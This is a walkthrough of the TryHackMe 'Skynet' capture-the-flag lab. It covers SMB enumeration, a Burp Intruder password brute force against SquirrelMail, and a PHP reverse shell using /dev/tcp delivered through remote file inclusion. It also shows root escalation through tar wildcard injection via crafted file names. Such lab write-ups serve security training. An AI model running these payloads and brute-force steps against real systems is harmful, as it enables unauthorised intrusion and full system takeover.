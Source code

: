 # [Skynet](https://tryhackme.com/room/skynet)

## A vulnerable Terminator themed Linux machine.

### What is Miles password for his emails?

_Enumerate Samba_

1. Perform service enumeration to identify available services and their versions:

```bash
nmap -sV IP
```

[SCREEN01]

2. List available SMB shares without authentication. Access the anonymous share to retrieve files. The `logs/log1.txt` file contains a list of potential passwords. The target username is identified as `milesdyson`.

```bash
smbclient -L //IP -N
smbclient //IP/anonymous -N
ls
mget *
cd logs
mget *
```

[SCREEN02]

3. Enumerate web directories to identify additional attack vectors
   - This reveals the SquirrelMail login interface at `/squirrelmail/`

```bash
gobuster dir -u http://IP -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

[SCREEN03]

4. Capture the login request from `http://IP/squirrelmail/src/login.php` via burp suite. Send it to the intruder, load the log1.txt password list and begin attack. Search for shortest response

5. Navigate to `http://<TARGET_IP>/squirrelmail/src/login.php`

- Capture the login request using Burp Suite
- Send the captured request to Burp Intruder
- Configure the attack:
  - Target parameter: password field
  - Payload: passwords from `log1.txt`
  - Attack type: Sniper
- Execute the attack and identify successful authentication by analyzing response lengths. The shortest response typically indicates successful authentication.

[SCREEN04]

[SCREEN05]

---

### What is the hidden directory?

1. Access the authenticated SquirrelMail interface at `http://<TARGET_IP>/squirrelmail/src/webmail.php`. Review the most recent email, which contains SMB credentials

- Password: **)s{A&2Z=F^n_E.B`**

[SCREEN06]

2. Use the discovered credentials to access Miles Dyson's private SMB share. Navigate to the notes directory and retrieve important file

```bash
smbclient //IP/milesdyson -U milesdyson
cd notes
get important.txt
```

[SCREEN07]

---

### What is the vulnerability called when you can include a remote file for malicious purposes?

1. The answer is: `Remote File Inclusion`

---

### What is the user flag?

1. Perform directory enumeration on the discovered hidden directory `/45kra24zxs28v3yd/administrator/`

```bash
gobuster dir -u http://IP/45kra24zxs28v3yd/ -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

[SCREEN08]

2. Further enumeration reveals a vulnerable endpoint `http://<TARGET_IP>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php`. This endpoint is susceptible to Remote File Inclusion via the `urlConfig` parameter

Create a PHP reverse shell payload. Save this as `shell.php`:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1'");
?>
```

Host the malicious file using Python's built-in HTTP server:

```bash
python -m SimpleHTTPServer
```

Configure a netcat listener to catch the reverse shell:

```bash
nc -nvlp 4444
```

Trigger the RFI vulnerability:

```bash
curl "http://IP/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://IP:8000/shell.php"

```

2. Once the reverse shell is established, retrieve the user flag:

```bash
cat /home/milesdyson/user.txt
```

[SCREEN09]

---

### What is the root flag?

_A recursive call._

1. Upgrade the reverse shell for better functionality. Examine scheduled tasks for privilege escalation opportunities. The vulnerability exists in how tar processes command-line arguments when wildcards are used. By creating files with names that match tar's command-line options, it's possible to execute arbitrary commands.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'

cat /etc/crontab
cd /var/www/html
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

# Wait for the cron job to execute
/tmp/rootbash -p
ls /root
cat /root/root.txt
```
